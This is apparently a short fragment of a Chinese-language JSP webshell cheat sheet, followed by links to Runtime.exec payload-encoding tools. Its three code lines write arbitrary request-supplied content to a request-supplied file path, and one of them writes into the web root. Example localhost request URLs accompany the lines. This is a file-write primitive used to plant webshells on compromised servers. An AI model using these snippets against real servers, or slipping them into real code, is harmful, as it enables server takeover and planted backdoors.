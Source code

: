 ```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


### 四、编码相关

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk
